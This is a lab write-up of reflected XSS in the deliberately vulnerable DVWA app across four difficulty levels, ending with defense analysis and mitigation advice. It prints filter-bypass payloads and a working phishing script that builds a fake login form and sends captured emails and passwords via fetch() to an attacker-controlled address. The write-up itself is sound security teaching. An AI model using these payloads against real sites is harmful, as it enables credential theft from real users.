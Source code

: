 ```yaml
---
title: Dvwa - xss (Laboratory) - Low to Impossible
excerpt: Analysis and exploitation of the XSS (Reflected) vulnerability on DVWA's diferent difficulty level.
categories:
  - Write-up
  - Hacking Web
  - Laboratory
tags:
  - methodology
  - dvwa
  - xss
  - reflected-xss
  - Low
  - Medium
  - Hard
  - Impossible
toc: true
toc_label: Report Content
toc_sticky: true
header:
  overlay_image: /assets/images/headers/dvwa-banner.jpg
  overlay_filter: 0.7
  og_image: /assets/images/headers/dvwa-banner.jpg
seo_tittle: DVWA - XSS (Reflected) -
seo_description: A detailed report on the analysis and exploitation of the XSS (Reflected) vulnerability in the DVWA lab, focusing on code injection and cookie theft.
---
```


![image-center](/assets/images/headers/dvwa-banner.jpg)
{: .align-center}

**Key Skills:**
- **Code Injection:** Injection of malicious payloads.    
- **Filter Bypass:** Techniques for evading blacklists and input sanitization.    
- **Logic Analysis:** Identification of vulnerabilities at different security levels. 

---
### 1. Executive Summary

This report documents the analysis and exploitation of the **Cross-Site Scripting (XSS)** reflected vulnerability in the DVWA web application, covering the **`Low`**, **`Medium`**, **`Hard`**, and **`Impossible`** difficulty levels. The application fails to consistently sanitize or encode user input, which allows for the injection of JavaScript code. This report demonstrates how an attacker can adapt their payloads to circumvent progressively more complex defenses, highlighting the need for robust output sanitization as the only reliable solution.

---

### 2. Introduction

This ethical hacking exercise was conducted on the DVWA platform, an intentionally vulnerable web application. The objective was to explore how the same XSS vulnerability can be exploited at different security levels. This report details the bypass techniques used, starting with a simple injection and advancing to more sophisticated methods to evade security filters, unifying the methodology into a single document to optimize analysis and presentation.

---

### 3. Exploitation

The vulnerability is located in the `XSS (Reflected)` section of DVWA. Below are the payloads and bypass techniques used for each difficulty level.

```js
Payloads para JS XSS
cat /usr/share/wordlists/seclists/Fuzzing/XSS/human-friendly/XSS-Cheat-Sheet-PortSwigger.txt

```

#### 3.1. Difficulty Level: `Low`
At this level, the application has no security measures. User input is reflected directly in the page's HTML without validation or sanitization.
- **Payload:** The simplest payload is sufficient.
    

```js
<script>alert("XSS")</script>
```

![XSS Alert Low](/assets/images/posts/DVWA/xss-js-low.png)

#### 3.2. Difficulty Level: `Medium`

The application now has a security measure: it filters the text string `<script>`. However, this filter is a basic blacklist that is easily bypassable. An attacker can use other HTML tags and events to execute JavaScript.

- **Bypass Technique:** Use an image tag (`<img>`) with an error event (`onerror`) that executes the code. If the image fails to load (e.g., because the URL is incorrect), the event will trigger.
    
- **Payload:**
    


```js
<img src="x" onerror="alert('XSS')">
```
![XSS Alert Medium](/assets/images/posts/DVWA/xss-js-medium.png)

#### 3.3. Difficulty Level: `Hard`

At the `Hard` level, the application improves its filter. Now, both the `<script>` string and the `on` string are filtered from the input. To overcome this defense, more advanced techniques are needed.

- **Bypass Technique:** Use a combination of uppercase and lowercase letters or character encoding to evade the filter that looks for the literal `on` string.
    
- **Payload:** The same image technique can be used, but with uppercase letters in the event to bypass the filter.
    


```js
<img src="x" OnError="alert('XSS')">
```


### Advanced Exploitation: Phishing through XSS

At this difficulty level, we demonstrate how a reflected XSS vulnerability can be used to execute a highly sophisticated **phishing** attack. Unlike payloads that simply steal cookies or display alerts, this exploit injects JavaScript code that builds a fake login form.

The exploitation process is described below:

1. **JavaScript Code Injection:** A script is injected into the application's vulnerable field.
    
2. **Malicious Form Rendering:** The script dynamically creates an HTML form (`<form>`) and inserts it into the page. This form is designed to look legitimate, requesting credentials like email and password.
    
3. **Credential Capture:** Instead of sending the data to a legitimate server, the "Submit" button's `onclick` function is linked to a custom JavaScript function (`submitForm()`). This function intercepts the values entered by the victim.
    
4. **Data Exfiltration:** Finally, the script uses a `fetch()` request to send the captured credentials to an attacker-controlled server. The data is sent via the URL, allowing the attacker to easily log the stolen information.
```js
<div id="formContainer"></div>

<script>
    var email;
    var password;
    var form = '<form>' +

        'Email: <input type="email" id="email" required>' +
        'Contraseña: <input type="password" id="password" required>' +
        '<input type="button" onclick="submitForm()" value="Submit">' +

    '</form>';

document.getElementById("formContainer").innerHTML = form;

function submitForm() {
    email = document.getElementById("email").value;
    password = document.getElementById("password").value;
    fetch("http://192.168.0.17:444/?email=" + email + "&password=" + password);
}
</script>
```
![XSS Exploit](/assets/images/posts/DVWA/xss-script.png)
This type of attack highlights how an XSS vulnerability can escalate into a **social engineering** threat, tricking users into giving up their confidential information, despite being on a trusted domain.


#### 3.4. Difficulty Level: `Impossible`

At the `Impossible` level, the application implements **robust output sanitization**. No matter what payload is entered, the application encodes the special characters (`<`, `>`, `"`, etc.) before they are displayed on the page. This prevents the browser from interpreting them as HTML or JavaScript code.

- **Defense Analysis:**
    
    - The application uses PHP's `htmlspecialchars()` function, which converts special characters into their HTML entities.
        
    - For example, `<` is converted to `&lt;` and `>` is converted to `&gt;`.
        
    - This encoding makes any XSS payload harmless, as the browser renders it as plain text instead of executable code.
        

---

### 4. Conclusion and Recommendations

#### Vulnerability Summary

|Vulnerability|Severity|Impact|**CVSS Score**|
|---|---|---|---|
|**XSS (Reflected)**|**Medium**|An attacker can execute arbitrary code in the victim's browser, compromising their session or stealing data.|**4.6 (CVSS v3.1)**|


#### Recommendations for Mitigation

1. **Input Validation:** Do not trust user input. Implement strict server-side validation.
    
2. **Output Encoding:** This is the most important defense. Encode all special characters (`<`, `>`, `"`, etc.) before they are rendered on the page. This prevents the browser from interpreting them as HTML or JavaScript code.
    
3. **Robust Filtering:** Avoid blacklists. Instead, use whitelists to allow only safe content.
    
4. **Use of CSP (Content Security Policy):** Implement a CSP to restrict the sources of scripts and other resources, mitigating the attacker's ability to execute arbitrary code.